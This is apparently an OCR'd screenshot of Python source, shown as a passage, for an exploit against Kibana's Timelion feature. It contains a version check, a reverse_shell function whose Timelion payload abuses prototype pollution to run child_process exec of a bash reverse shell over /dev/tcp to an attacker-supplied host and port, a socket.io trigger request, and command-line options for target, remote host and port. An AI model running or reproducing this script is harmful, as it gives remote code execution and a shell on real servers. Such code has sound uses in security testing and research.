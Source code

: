 ```python

    if not version or not version_compare(["5.6.15", "6.6.1"], version):
        return False
    headers = {
        'Content-Type': 'application/json;charset=utf-8',
        'Referer': url,
        'kbn-version': version,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    data = '{"sheet":[".es(*)"],"time":{"from":"now-1m","to":"now","mode":"quick","interval":"auto","timezone":"Asia/Shanghai"}}'
    url = "{}{}".format(url.rstrip("/"), "/api/timelion/run")
    r = requests.post(url, data=data, verify=False, headers=headers, timeout=20)
    if r.status_code == 200 and 'application/json' in r.headers.get('content-type', '') and '"seriesList"' in r.content:
        return True
    else:
        return False


def reverse_shell(target, ip, port):
    random_name = "".join(random.sample('qwertyuiopasdfghjkl', 8))
    headers = {
        'Content-Type': 'application/json;charset=utf-8',
        'kbn-version': version,
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0',
    }
    data = r'''{"sheet":[".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"if [ ! -f /tmp/%s ];then touch /tmp/%s && /bin/bash -c \\'/bin/bash -i >& /dev/tcp/%s/%s 0>&1\\'; fi\");process.exit()//')\n.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],"time":{"from":"now-15m","to":"now","mode":"quick","interval":"10s","timezone":"Asia/Shanghai"}}''' % (random_name, random_name, ip, port)
    url = "{}{}".format(target, "/api/timelion/run")
    r1 = requests.post(url, data=data, verify=False, headers=headers, timeout=20)
    if r1.status_code == 200:
        trigger_url = "{}{}".format(target, "/socket.io/?EIO=3&transport=polling&t=MtjhZoM")
        new_headers = headers
        new_headers.update({'kbn-xsrf': 'professionally-crafted-string-of-text'})
        r2 = requests.get(trigger_url, verify=False, headers=new_headers, timeout=20)
        if r2.status_code == 200:
            time.sleep(5)
            return True
    return False


if __name__ == "__main__":
    start = time.time()

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest='url', default="http://127.0.0.1:5601", type=str, help='such as: http://127.0.0.1:5601')
    parser.add_argument("-host", dest='remote_host', default="127.0.0.1", type=str, help='reverse shell remote host: such as: 1.1.1.1')
    parser.add_argument("-port", dest='remote_port', default="8888", type=str, help='reverse shell remote port: such as: 8888')
    parser.add_argument('--shell', dest='reverse_shell', default='', action="store_true", help='reverse shell after verify')

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
```